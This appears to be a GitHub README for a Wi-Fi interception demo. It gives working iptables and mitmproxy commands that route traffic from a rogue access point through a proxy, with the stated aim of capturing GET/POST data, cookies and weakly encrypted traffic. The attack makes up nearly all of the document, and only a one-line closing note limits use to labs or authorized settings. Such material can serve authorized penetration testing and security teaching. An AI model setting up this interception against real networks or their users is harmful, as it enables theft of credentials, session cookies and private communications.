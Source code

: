 # 🕷️ MITMProxy + Wi-Fi Interception Demo

Intercept HTTP/HTTPS traffic in real-time using `mitmproxy` on a rogue AP.

---

## ⚙️ Steps

1. Set up rogue AP as in `rogue-ap-attack.md`.

2. Configure `iptables` for forwarding:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

3. Start mitmproxy:

```bash
mitmproxy -p 8080 -v
```

4. Redirect traffic to port 8080:

```bash
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-port 8080
```

## 🎯 Goal

Capture GET/POST data, cookies, and weakly encrypted traffic.

## ⚠️ Legal Note

Use only in test labs or authorized environments.

